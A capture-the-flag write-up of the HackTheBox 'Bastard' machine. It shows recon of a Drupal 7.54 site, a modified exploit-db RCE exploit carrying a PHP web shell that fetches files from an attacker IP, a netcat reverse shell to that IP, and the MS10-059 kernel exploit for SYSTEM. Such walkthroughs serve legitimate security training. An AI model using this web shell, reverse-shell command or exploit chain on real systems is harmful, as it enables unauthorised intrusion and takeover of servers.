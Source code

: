 # Bastard [htb](https://app.hackthebox.com/machines/Bastard)
![bastard-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/bastard-01.png)



## Recon


Lets add the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/hosts-02.png)


Now we can scan the target with: 

`nmap -sC -sV -A -p- bastard.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/nmap-res-03.png)


We have the following:

+ An IIS v7.5 server on port 80.
  
Seems like the `robots.txt` has some interesting directories. 

+ RPC on ports 135, 49154. 


Lets check the website. 


### HTTP 80

If we open our browsers and navigate towards `http://bastard.htb/`: 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/site-04.png)

We see a login page, Iv'e tried SQLi, didnt really work for me. Creating an account doenst work, and the password reset feature doesnt work as well.  

If we take a look at the `robots.txt` file nmap found:

![robots-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/robots-05.png)


This `CHANGELOG.txt` file must be containing version numbers. 

![changelog-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/changelog-06.png)


We can see the backend is `Drupal 7.54`. If we use look up vulnerabilities:

`searchsploit drupal 7`

![searchsploit-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/searchsploit-06.png)


There's no shortage, Lets try the highlighted rce exploit. Copy it over with:

`cp /usr/share/exploitdb/exploits/php/webapps/41564.php rce.php`

Once you have the file in your current directory, open it:

![php-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/php-08.png)

Looks like the script is searching for an endpoint in `rest_endpoint`. Lets see if we have this directory:

`http://bastard.htb/rest_endpoint`
 
![endpoint-fail-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/endpoint-fail-09.png)

We dont, but if we go to `http://bastard.htb/rest`: 

![endpoint-success-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/endpoint-success-10.png)

Now we found the rest endpoint location, which means we can probably wxploit this. We just need to update the directory name in the exploit:

![update-exploit-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/update-exploit-11.png)

I updated the endpoint path, filename, and the URL of our target. I also added some php code so we can
upload files and execute commands.

```php
<?php
        if (isset($_REQUEST['fupload'])) {
                file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.20/" . $_REQUEST['fupload']));

        };

        if (isset($_REQUEST['fexec'])) {
                echo "<pre>".shell_exec($_REQUEST['fexec'])."</pre>";

        };

?>
```
 

To run this, you might need to install curl-php with `apt install php-curl`. 

Then we can run the exploit with: 

`php rcp.php`

![execute-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/execute-12.png)


Now that the file has been uploaded, we can execute commands via the URL:

`http://bastard.htb/shell.php?fexec=dir`

![rce-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/rce-13.png)


Lets see if we can upload `nc.exe` to the target and get a reverse shell. 

Copy `nc.exe` to your working directory: 

`cp /usr/share/windows-resources/binaries/nc.exe .`


Start a python web server:

`python3 -m http.server 80`

Use the file upload feature to put in on the target: 

`http://bastard.htb/shell.php?fupload=nc.exe`


![nc-transfer-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/nc-transfer-14.png)


Looks like the file has been saved on the target. 

Lets start the local listener: 

`nc -lnvp 9001` 


Now we want to execute `nc.exe` with: 

`nc.exe -e cmd.exe 10.10.14.20 9001`

I use Burp to URL-encode this. 

If we send the payload in the URL:

`http://bastard.htb/shell.php?fexec=<payload>`


We get a shell: 

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/shell-15.png)

Lets try to get system! 

## Privilege Escalation

If we run `systeminfo`:

![sysinfo-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/sysinfo-16.png)

We can see we are up againts a 2008 Windows server. If we take this output, save it to a file on our
Kali machine, and run [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) againts it, we can see the following:

![exploit-suggester-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/exploit-suggester-17.png)

MS10-059 is a well known kernel exploit for Windows as it works more often then not, so its worth a shot. 

You can find the exploit [here](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe), download it to your Kali machine. 

Next, start a python web server with: 

`python3 -m http.server 80`

and use the file upload feature we created before to upload the file to the target: 

`http://bastard.htb/shell.php?fupload=Chimichurri.exe`

![dir-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/dir-18.png)

Setup the netcat listener with:

`nc -lnvp 9002`


Finally, execeute the exploit with:

`Chimichurri.exe 10.10.14.31 9002`

Where the IP is your Kali machine, and `9002` the port your listening on. 


Execute, and this should yield you a shell as the system:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/root-19.png)

